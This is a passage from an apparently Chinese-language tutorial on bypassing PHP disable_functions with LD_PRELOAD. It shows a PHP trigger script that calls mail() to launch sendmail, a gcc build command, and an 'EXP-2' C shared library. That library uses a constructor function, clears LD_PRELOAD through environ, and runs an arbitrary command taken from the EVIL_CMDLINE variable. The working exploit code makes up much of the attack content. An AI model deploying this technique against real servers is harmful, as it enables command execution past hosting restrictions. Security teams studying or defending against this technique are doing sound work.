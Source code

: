 php脚本

```php
<?php
    putenv("LD_PRELOAD=/var/www/html/hack.so")
    mail("","","","","");
?>
```

将劫持代码编译成动态链接库 ,若目标为 x86 架构，需要加上 `-m32` 选项重新编译 

```shell
gcc -fPIC -shared test.c -o test.so
```

分别将动态库test.so文件，php脚本`test.php`上传到服务器中，再访问`test.php`脚本文件，如果成功将`geteuid`函数劫持，那么将会把`whoami`命令结果重定向在`/var/www/html/test.txt`文件中

![](ByPaass_disable_Function.assets/ByPass disable_function_5.png)

在真实环境中，存在两方面问题：一是，某些环境中，web 禁止启用 sendmail、甚至系统上根本未安装 sendmail，也就谈不上劫持 getuid()，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；二是，即便目标可以启用 sendmail，由于未将主机名（hostname 输出）添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts（如，127.0.0.1 lamp、lamp.、lamp.com）。基于这两个原因，不得不放弃劫持函数 geteuid()，必须找个更实用的方法。回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那就完全可以不依赖 sendmail 了。

GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。这一细节非常重要，很多朋友用 LD_PRELOAD 手法突破 disable_functions 无法做到百分百成功，正因为这个原因，**不要局限于仅劫持某一函数，而应考虑拦劫启动进程这一行为**

此外，通过 LD_PRELOAD 劫持了启动进程的行为，劫持后又启动了另外的新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD。最直观的做法是调用 `unsetenv("LD_PRELOAD")`，这在大部份 linux 发行套件上的确可行，但在 centos 上却无效，究其原因，centos 自己也 hook 了 unsetenv()，在其内部启动了其他进程，根本来不及删除 LD_PRELOAD 就又被劫持，导致无限循环。所以，我得找一种比 unsetenv() 更直接的删除环境变量的方式。是它，全局变量 `extern char** environ`！实际上，unsetenv() 就是对 environ 的简单封装实现的环境变量删除功能。 

#### EXP-2

动态链接库C脚本

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

